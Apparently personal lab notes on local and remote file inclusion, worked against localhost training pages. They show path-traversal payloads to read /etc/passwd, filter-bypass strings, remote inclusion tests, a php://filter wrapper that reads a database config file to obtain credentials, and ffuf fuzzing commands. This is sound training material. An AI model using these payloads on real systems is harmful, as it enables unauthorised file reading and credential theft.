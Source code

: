 
### Local FIle Inclusion(LFI) & Remote File Inclusion(RFI)

LFI : Include files that are already present on the target server

RFI : Allows an attacker to include malicious file from a external remote server, can lead to arbitary code executio 

LFI and RFI happen when an application takes a user input and using that path to a file without properly validating it

example : ?lang=ger
exploit :    ?lang=../../../../../etc/passwd


---

### LFI

Tells us to select recipe
After selecting, the url is

```url
http://localhost/labs/fi0x01.php?filename=chocolate_cake.txt
```

Since its a linux server 
Try 

```url
http://localhost/labs/fi0x01.php?filename=../../../../../../../../etc/passwd
```


![[Pasted image 20231124133644.png]]

And we get the /etc/passwd data

We can also use intruder or ffuf with the wordlist
/usr/share/wordlists/wfuzz/Injections/Traversal.txt

```sh
fuf -r -c -w /usr/share/wordlists/wfuzz/Injections/Traversal.txt:FUZZ -u "http://localhost/labs/fi0x01.php?filename=FUZZ" 
```


---

### RFI

```url
http://localhost/labs/fi0x02.php?filename=files%2Fchocolate_cake.txt
```

%2F = /

Try 

```url
http://localhost/labs/fi0x02.php?filename=files%2F../../../../../../etc/passwd
```

Error message : **Warning**: file_get_contents(files/etc/passwd): failed to open stream: No such file or directory in **/var/www/html/labs/fi0x02.php** on line **12**

Since most of our path missing in error message, we can assume that '../'  is being filtered

Try

```url
http://localhost/labs/fi0x02.php?filename=files%2F..././..././..././..././..././etc/passwd
```

This works is server is filtering ou '../' so what happens is that it filters out which was an extra we used to trick it and what remains after filtering out is ../../../


![[Pasted image 20231124135744.png]]


We can an LFI here

Now check for RFI 

```url
http://localhost/labs/fi0x02.php?filename=https://google.com
```

![[Pasted image 20231124135909.png]]


We also have an RFI

If https being filtered try : hthttpstps : splitting it up we get ht https tps , if there is no recursive filtering, we will get file inclusion

If there is recursive file inclusion try

htTps instead of https : do this if https being filtered out




From payloadsallthethings, we can also try wrapper 

```url
http://localhost/labs/fi0x02.php?filename=php://filter/convert.base64-encode/resource=..././db.php
```

Gives us base64 encoded output

Decoding it gives

![[Pasted image 20231124140531.png]]

So we can steal database credentials as well


---

### File Inclusion Challenge

Page content changes but no request in network tab nor does the page refresh, so maybe using an API.

```http
GET /labs/api/fetchRecipe.php?filename=chocolate_cake.txt
```

It is a REST api request

Try 

```http
GET /labs/api/fetchRecipe.php?filename=....//....//....//....//....//....//etc/passwd
```

![[Pasted image 20231124141059.png]]

And we have LFI

```sh
ffuf -r -c -request api-req.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Fuzzing/LFI/LFI-Jhaddix.txt -fw 19,20
```

-fw : filter by number of words


---

